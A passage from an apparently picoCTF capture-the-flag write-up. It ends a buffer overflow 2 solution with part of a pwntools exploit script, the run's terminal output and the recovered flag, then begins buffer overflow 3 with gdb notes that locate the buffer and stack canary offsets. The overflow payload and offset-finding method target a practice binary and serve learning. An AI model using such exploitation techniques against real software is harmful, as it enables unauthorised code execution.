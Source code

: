 ```python
payload += b'B' * 4                     # padding 2
payload += p32(0xcafef00d)              # arg1
payload += p32(0xf00df00d)              # arg2

p.sendline(payload)

print(p.recvline())
print(p.recv())
```

Terminal output:
```bash
└─$ python3 buffer_overflow_2.py
[+] Opening connection to saturn.picoctf.net on port 57524: Done
b'Please enter your string: \n'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x080\x91\x04\x08\r\xf0\xfe\xca\r\xf0\r\xf0\n'
b'picoCTF{argum3nt5_4_d4yZ_b3fd8f66}'
[*] Closed connection to saturn.picoctf.net port 57524
```

Flag: `picoCTF{argum3nt5_4_d4yZ_b3fd8f66}`

## **buffer overflow 3**

### ***Description***

<button name="button" onclick="http://www.google.com">Launch Instance</button> <br>
Do you think you can bypass the protection and get the flag?<br>It looks like Dr. Oswal added a stack canary to this [program](https://artifacts.picoctf.net/c/492/vuln) to protect against buffer overflows. You can view source [here](https://artifacts.picoctf.net/c/492/vuln.c). And connect with it using: `nc saturn.picoctf.net 51360`

<details><summary>Hint 1</summary></details>

### ***Writeup***

Running `checksec vuln` does not show that it has canaries, which probably means that the canary in the program is not a real stack canary where the value is randomized everytime.

You can do a format string attack

Set a breakpoint at `vuln+192`

`ebp` is at `0xffffd058` at that breakpoint using `info register $ebp`

`length` starts at address `0xffffcfc8`  given the instruction at `vuln+66` where the program is preparing to read from STDIN into `length`, and `0xffffd058-0x90=0xffffcfc8`. Doing `info register $edx` also shows that it has been updated to `0x4`

`buf` starts at address `0xffffd008`  given the instruction at `vuln+181` where the program is preparing to read from STDIN into `buf`, and `0xffffd058-0x50=0xffffd008` (also is where the 41's start given a sample input of 4 A's).

The canary is at address `0xffffd048` given the instruction at `vuln+207` where the program is comparing the value of the local `canary` buffer to the global variable `global_canary`, and `0xffffd058-0x10=0xffffd048`.
